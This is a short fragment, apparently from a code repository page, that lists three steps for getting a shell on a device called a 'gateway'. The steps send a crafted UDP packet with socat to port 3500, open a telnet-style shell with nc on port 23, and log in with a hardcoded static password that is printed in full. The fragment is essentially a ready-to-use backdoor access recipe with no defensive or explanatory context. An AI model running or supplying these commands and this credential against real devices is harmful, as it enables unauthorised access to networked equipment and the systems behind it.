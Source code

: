 Gateway:

1. Request shell on gateway: printf "\x12\x01" |socat - udp:gw:3500
2. Open gateway shell: nc gw 23
3. Login to shell with static password: 1q3e5t7u
